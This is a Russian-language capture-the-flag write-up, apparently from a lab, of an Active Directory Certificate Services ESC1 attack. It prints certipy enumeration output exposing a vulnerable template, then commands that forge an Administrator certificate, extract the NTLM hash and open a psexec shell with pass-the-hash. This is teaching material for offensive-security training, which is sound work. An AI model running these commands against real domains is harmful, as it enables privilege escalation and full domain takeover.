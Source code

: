 Выполним перечисление сервера ADCS
```
certipy-ad find -u 'Bob@corp.local' -p 'b0b1sH@cker' -dc-ip 10.53.50.14 -stdout -vulnerable  
```

>[!tip]- certipy ad
>Certipy v5.0.2 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'CA-CYBER' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'CA-CYBER'
[*] Checking web enrollment for CA 'CA-CYBER' @ 'dc.corp.local'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
CA Name                             : CA-CYBER
DNS Name                            : dc.corp.local
Certificate Subject                 : CN=CA-CYBER, DC=corp, DC=local
Certificate Serial Number           : 1318E7E0926C2EA149F550E90C170EA5
Certificate Validity Start          : 2025-08-25 14:40:22+00:00
Certificate Validity End            : 2035-08-25 14:50:22+00:00
Web Enrollment
HTTP
Enabled                         : False
  HTTPS
  Enabled                         : False
  User Specified SAN                  : Disabled
   Request Disposition                 : Issue
   Enforce Encryption for Requests     : Enabled
   Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
 Permissions
  Owner                             : CORP.LOCAL\Administrators
  Access Rights
  ManageCa                        : CORP.LOCAL\Administrators
   CORP.LOCAL\Domain Admins
  CORP.LOCAL\Enterprise Admins
 ManageCertificates              : CORP.LOCAL\Administrators
   CORP.LOCAL\Domain Admins
   CORP.LOCAL\Enterprise Admins
   Enroll                          : CORP.LOCAL\Authenticated Users
Certificate Templates
Template Name                       : VPNuser
   Display Name                        : VPNuser
   Certificate Authorities             : CA-CYBER
   Enabled                             : True
   Client Authentication               : True
   Enrollment Agent                    : False
   Any Purpose                         : False
   Enrollee Supplies Subject           : True
  Certificate Name Flag               : EnrolleeSuppliesSubject
   Enrollment Flag                     : IncludeSymmetricAlgorithms
PublishToDs
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Client Authentication
  Secure Email
  Encrypting File System
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-25T14:51:12+00:00
Template Last Modified              : 2025-08-25T14:51:35+00:00
Permissions
 Enrollment Permissions
 Enrollment Rights               : CORP.LOCAL\Domain Users
Object Control Permissions
  Owner                           : CORP.LOCAL\Enterprise Admins
 Full Control Principals         : CORP.LOCAL\Domain Admins
  CORP.LOCAL\Local System
   CORP.LOCAL\Enterprise Admins
  Write Owner Principals          : CORP.LOCAL\Domain Admins
  CORP.LOCAL\Local System
CORP.LOCAL\Enterprise Admins
Write Dacl Principals           : CORP.LOCAL\Domain Admins
CORP.LOCAL\Local System
   CORP.LOCAL\Enterprise Admins
   [+] User Enrollable Principals      : CORP.LOCAL\Domain Users
   [!] Vulnerabilities
   ESC1                              : Enrollee supplies subject and template allows client authentication.

Используя полученный вывод запросим сертификат с альтернативным SAN
```
certipy-ad req -u 'Bob@corp.local' -p 'b0b1sH@cker' -dc-ip 10.53.50.14 -ca CA-CYBER -template VPNuser -upn 'Administrator@corp.local'
```

Выполним атаку UnpackTheHash для извлечения NTLM-хеша пользователя:
```
certipy-ad -debug auth -pfx administrator.pfx -domain corp.local  -dc-ip 10.53.50.14  
```


Получим соединение и прочитаем флаг
```
impacket-psexec -hashes ':<hash>' Administrator@10.53.50.14
```

